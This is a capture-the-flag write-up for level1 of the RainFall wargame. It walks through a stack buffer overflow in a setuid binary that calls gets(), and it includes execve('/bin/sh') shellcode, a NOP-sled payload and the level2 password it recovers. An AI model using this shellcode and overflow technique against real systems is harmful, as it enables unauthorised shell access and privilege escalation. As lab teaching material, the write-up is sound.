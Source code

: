 # level1

- We login as user level1:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
```

```
level1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level2 users 5138 Mar  6  2016 level1
```

```
level1@RainFall:~$ gdb level1
```

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   %ebp
   0x08048481 <+1>:     mov    %esp,%ebp
   0x08048483 <+3>:     and    $0xfffffff0,%esp
   0x08048486 <+6>:     sub    $0x50,%esp
   0x08048489 <+9>:     lea    0x10(%esp),%eax
   0x0804848d <+13>:    mov    %eax,(%esp)
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```


- This exercise is an introduction to stack [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).
The program generously allows us to write without limits into its stack.
We just need to write enough characters to reach the return address of the `main` function.
Then, we will replace this address with the address of a memory area that will contain a [shellcode](https://en.wikipedia.org/wiki/Shellcode) which will call `execve("/bin/sh")`.

>![stack1](https://upload.wikimedia.org/wikipedia/commons/0/00/Pile_avant_appel.png?20120112163251)![stack2](https://upload.wikimedia.org/wikipedia/commons/d/d9/Pile_debordement.gif?20120112163309)


- First, we need to know from how many characters the return address of our function starts to be substituted. It can be done quickly using a tool like [Metasploit](https://en.wikipedia.org/wiki/Metasploit).
```
$msf-pattern_create -l [pattern length] | [binary]
... get overried EIP address from GDB
```

```
$msf-pattern_offset -l [pattern length] -q [overried EIP address]
```

- The return address is found to be replaced after the 76th character:
```
(gdb) b*0x08048495
```

```
r < <(python -c "print('A'*76 + 'BBBBCCCC')")
Starting program: /home/user/level1/level1 < <(python -c "print('A'*76 + 'BBBBCCCC')")

Breakpoint 1, 0x08048495 in main ()
(gdb) i f
Stack level 0, frame at 0xbffff740:
 eip = 0x8048495 in main; saved eip 0x42424242
 Arglist at 0xbffff738, args:
 Locals at 0xbffff738, Previous frame's sp is 0xbffff740
 Saved registers:
  ebp at 0xbffff738, eip at 0xbffff73c
```
>`saved eip 0x42424242`


- 42 is the hexadecimal ASCII value of the character 'B'. So, `BBBB` should be replaced with an address that points to the beginning of our shellcode.


- Let's make that shellcode.
```asm
section .text
    global _start

_start:
    xor esi, esi            ; 
    xor edi, edi            ; 
    xor ecx, ecx            ; 
    xor edx, edx            ; Cleaning registers

    push edx                ; Null terminate the string
    push 0x68732f2f         ; Pushing "//sh"
    push 0x6e69622f         ; Pushing "/bin"
    
    mov ebx, esp            ; Pointer to the string
    xor eax, eax            ;
    mov al, 0xb             ; 11 is the syscall number of execve
    int 0x80
```

```
$ nasm -f elf32 src.asm -o obj.o
```

```
$ objdump -d obj.o

test.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_start>:
   0:   31 f6                   xor    %esi,%esi
   2:   31 ff                   xor    %edi,%edi
   4:   31 c9                   xor    %ecx,%ecx
   6:   31 d2                   xor    %edx,%edx
   8:   52                      push   %edx
   9:   68 2f 2f 73 68          push   $0x68732f2f
   e:   68 2f 62 69 6e          push   $0x6e69622f
  13:   89 e3                   mov    %esp,%ebx
  15:   31 c0                   xor    %eax,%eax
  17:   b0 0b                   mov    $0xb,%al
  19:   cd 80                   int    $0x80
```


- So we have a 27 bytes shellcode.
```
$ echo -ne "\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80" | wc -c
27
```


- Now, we need to store our shellcode somewhere in the program's memory, for example, writing it into the memory area filled by `<gets@plt>`. Let's start by retrieving this memory address.
```
level1@RainFall:~$ gdb level1
```

```
(gdb) b*0x08048495
```

```
(gdb) r < <(echo -n "123")
Starting program: /home/user/level1/level1 < <(echo -n "123")

Breakpoint 1, 0x08048495 in main ()
(gdb) x $eax
0xbffff6d0:     0x00333231
```


- The address is `0xbffff6d0`, this means that by launching our program like so `(gdb) r < <(python -c "print '$SHELLCODE' + 'a'*(76 - 27) + '\xd0\xf6\xff\xbf'")`, the program's execution flow should be redirected to our shellcode.


- However, `(gdb) r < <(echo lol)` is equivalent to `$ echo lol | our_binary`. Thus, the pipe will send EOF once `lol` has been transmitted to `our_binary`, which means that `stdin` will be closed for `our_binary`. Since `execve()` inherits the I/O of the parent process, our `/bin/sh` would close immediately. That's why we will add `cat` to keep `stdin` open during `execve()`.
```
(gdb) r < <(python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat)
...
whoami
level1
```


- A shell has been successfully launched, let's take advantage of [the setuid and setgid permission bits](https://en.wikipedia.org/wiki/Setuid) by doing the same thing without GDB.
```
level1@RainFall:~$ (python -c "print '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*49 + '\xd0\xf6\xff\xbf'"; cat) | ./level1

Illegal instruction (core dumped)
```


- It doesn't work, indeed, the environment is slightly different between a program launched with/without GDB. That's why the exact address we are targeting isn't exactly the same. We therefore need to find the correct address. By adding [NOP instructions](https://fr.wikipedia.org/wiki/NOP) before our shellcode, we can make the address search less laborious. We would then be tempted to do it like this:
```
python -c "print '\x90'*49 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + '\xd0\xf6\xff\xbf'"
```


- But since our shellcode is stored directly in the stack, and `esp` is at that moment of program execution at the level of the previous stack frame, our instructions `push $0x68732f2f` and `push 0x6e69622f` would corrupt our shellcode, and it wouldn't work.
So, we need to keep a bit of space, precisely 8 bytes:
```
python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xd0\xf6\xff\xbf'"
```

- Thus, thanks to these NOP instructions, the execution of our shellcode will be able to succeed from a broader range of addresses.
```
level1@RainFall:~$ (python -c "print '\x90'*41 + '\x31\xf6\x31\xff\x31\xc9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc0\xb0\x0b\xcd\x80' + 'a'*8 + '\xf0\xf6\xff\xbf'"; cat) | ./level1

whoami
level2

cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```